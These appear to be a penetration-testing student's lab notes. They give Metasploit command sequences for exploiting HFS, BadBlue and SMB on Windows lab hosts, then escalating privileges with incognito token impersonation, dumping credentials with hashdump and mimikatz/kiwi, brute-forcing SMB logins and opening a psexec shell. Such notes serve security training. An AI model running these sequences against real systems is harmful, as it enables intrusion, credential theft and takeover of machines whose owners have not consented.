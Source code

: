 	set TARGET 1
	set PAYLOAD windows/x64/meterpreter/reverse_tcp
	exploit
	getsystem
	getuid
	ps -S lsass.exe
	migrate (PID number)
	hashdump


# Windows Privilege Escalation: Token Impersonation with incognito
#### Privilege Escalation: Impersonate

	nmap ip
	nmap -sV -p 80 ip
	searchsploit hfs
	msfconsole 
	setg RHOSTS ip
	use exploit/windows/http/rejetto_hfs_exec
	exploit
	getuid
	cat C:\\Users\\Administrator\\Desktop\\flag.txt (access denied)
	load incognito
	list_tokens -u
	impersonate_token ATTACKDEFENSE\\Administrator
	getuid
	cat C:\\Users\\Administrator\\Desktop\\flag.txt (Solved)


## Dumping Hashed with mimikatz (meterpreter Kiwi Extension)

	nmap ip
	nmap -sV -p 80 ip
	searchsploit badblue 2.7
	msfconsole
	use exploit/windows/http/badblue_passthru
	set RHOSTS ip
	exploit
	migrate -N lsass.exe
	load kiwi
	creds_all
	lsa_dump_sam
	lsa_dump_secrets


## pass the hash with PSEXEC (exploiting SMB with psexec

	nmap ip
	nmap -p445 --script smb-protocols ip
	use auxiliary/scanner/smb/smb_login
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set VERBOSE false
	exploit 
	back
	use exploit/windows/smb/psexec
	set RHOSTS ip
	set SMBUser administrator
	set SMBPass qwertyuiop
	exploit
	shell